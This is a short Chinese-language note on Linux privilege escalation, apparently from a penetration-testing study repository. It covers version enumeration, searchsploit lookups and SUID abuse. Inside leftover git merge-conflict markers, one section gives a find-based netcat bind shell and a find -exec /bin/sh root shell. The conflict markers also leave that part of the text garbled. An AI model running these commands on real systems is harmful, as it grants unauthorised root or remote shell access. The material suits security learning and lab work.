

# Linux提权

## 前言

提权本质：一方面是信息收集，另一方面是对内核漏洞的掌握情况

## 基础信息收集

```bash
# 查看发行版本

# 查看内核版本
```

## 提权操作

### 内核漏洞提权

1.查看发行版以及内核版本

```bash
cat /etc/issue
cat /etc/*-release

uname -a
```

2.kali查找漏洞

```
searchsploit linux 3.10 CentOS Linux 7
```

### SUID提权

suid全称是Set owner User ID up on execution。SUID 是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行【ls 查看时有 s 属性才支持 SUID】

常见的可用来提权的linux可执行文件如下：

```
Nmap, Vim, find, bash, more, less, nano, cp
```

查看可以suid 提权的可执行文件(查看拥有suid权限的命令)

```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```

<<<<<<< HEAD


#### find

案例可见DC1的提权
```bash
find aaa - exec netcat -lvp 5555 -e /bin/sh \ # 反弹
find . -exec /bin/sh \; # 直接提权
```


=======
>>>>>>> 9e28d707d74d8a7137c555cc7c9517446d04ac78
## 参考文章

* https://wiki.xazlsec.com/project-9/doc-730/
* https://xz.aliyun.com/t/7924
* https://shng.fun/posts/2021-01-23-%E5%AD%A6%E4%B9%A0-Linux%E4%B8%AD%E5%B8%B8%E7%94%A8%E7%9A%84%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95.html
* https://www.freebuf.com/articles/web/280398.html
* https://www.hacking8.com/tiquan/other/Linux%E6%8F%90%E6%9D%83.html
